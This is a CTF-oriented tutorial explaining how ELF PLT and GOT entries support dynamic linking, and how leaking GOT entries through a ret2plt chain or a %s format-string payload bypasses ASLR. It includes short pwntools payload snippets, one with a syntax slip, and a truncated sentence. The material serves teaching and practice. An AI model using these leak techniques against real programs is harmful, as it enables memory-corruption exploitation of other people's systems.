 ```yaml
---
description: Bypassing ASLR
---
```


# PLT and GOT

The PLT and GOT are sections within an ELF file that deal with a large portion of the **dynamic linking**. Dynamically linked binaries are more common than statically linked binary in CTFs. The purpose of **dynamic linking** is that binaries do not have to carry all the code necessary to run within them - this reduces their size substantially. Instead, they rely on system libraries \(especially `libc`, the C standard library\) to provide the bulk of the fucntionality.  
For example, each ELF file will not carry their own version of `puts` compiled within it - it will instead dynamically link to the `puts` of the system it is on. As well as smaller binary sizes, this also means the user can continually upgrade their libraries, instead of having to redownload all the binaries every time a new version comes out.

#### So when it's on a new system, it replaces function calls with hardcoded addresses?

Not quite.

The problem with this approach is it requires `libc` to have a constant base address, i.e. be loaded in the same area of memory every time it's run, but remember that [_**ASLR**_](https://en.wikipedia.org/wiki/Address_space_layout_randomization) _****_exists. Hence the need for _dynamic_ linking. Due to the way ASLR works, these addresses need to be resolved _every time the binary is run_. Enter the PLT and GOT.

## The PLT and GOT

The PLT \(**Procedure Linkage Table**\) and GOT \(**Global Offset Table**\) work together to perform the linking.

When you call `puts()` in C and compile it as an ELF executable, it is not _actually_ `puts()` - instead, it gets compiled as `puts@plt`. Check it out in GDB:

![](../../../.gitbook/assets/puts_plt.png)

Why does it do that?

Well, as we said, it doesn't know where `puts` actually is - so it jumps to the PLT entry of `puts` instead. From here, `puts@plt` does some very specific things:

* If there is a GOT entry for `puts`, it jumps to the address stored there.
* If there isn't a GOT entry, it will resolve it and jump there.

The GOT is a _massive_ table of addresses; these addresses are the actual locations in memory of the `libc` functions. `puts@got`, for example, will contain the address of `puts` in memory. When the PLT gets called, it reads the GOT address and redirects execution there. If the address is empty, it coordinates with the `ld.so` \(also called the **dynamic linker/loader**\) to get the function address and stores it in the GOT.

## How is this useful for binary exploitation?

Well, there are two key takeaways from the above explanation:

* Calling the PLT address of a function is equivalent to calling the function itself
* The GOT address contains addresses of functions in `libc`, and the GOT is within the binary.

The use of the first point is clear - if we have a PLT entry for a desirable `libc` function, for example `system`, we can just redirect execution to its PLT entry and it will be the equivalent of calling `system` directly; no need to jump into `libc`.

The second point is less obvious, but debatably even more important. As the GOT is part of the binary, it will always be a constant offset away from the base. Therefore, if PIE is disabled or you somehow leak the binary base, you know the exact address that contains a `libc` function's address. If you perhaps have an arbitrary read, it's trivial to leak the real address of the `libc` function and therefore bypass ASLR.

## Exploiting an Arbitrary Read

There are two main ways that I \(personally\) exploit an arbitrary read. Note that these approaches will cause not only the GOT entry to be return but _everything else until a null byte is reached_ as well, due to strings in C being null-terminated; make sure you only take the required number of bytes.

### ret2plt

A **ret2plt** is a common technique that involves calling `puts@plt` and passing the GOT entry of puts as a parameter. This causes `puts` to print out its own address in `libc`. You then set the return address to the function you are exploiting in order to call it again and enable you to

```python
# 32-bit ret2plt
payload = flat(
    b'A' * padding,
    elf.plt['puts'],
    elf.symbols['main'],
    elf.got['puts']
)

# 64-bit
payload = flat(
    b'A' * padding,
    POP_RDI,
    elf.got['puts']
    elf.plt['puts'],
    elf.symbols['main']
)
```

### %s format string

This has the same general theory but is useful when you have limited stack space or a ROP chain would alter the stack in such a way to complicate future payloads.

```python
payload = p32(elf.got['puts'])      # p64() if 64-bit
payload += b'|'
payload += b'%3$s'                  # The third parameter points at the start of the buffer


# this part is only relevant if you need to call the function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])

# Send it off...

p.recvuntil(b'|')                   # This is not required
puts_leak = u32(p.recv(4))          # 4 bytes because it's 32-bit
```

## Summary

* The PLT and GOT do the bulk of static linking
* The PLT resolves actual locations in `libc` of functions you use and stores them in the GOT
  * Next time that function is called, it jumps to the GOT and resumes execution there
* Calling `function@plt` is equivalent to calling the function itself
* An arbitrary read enables you to read the GOT and thus bypass ASLR by calculatin `libc` base

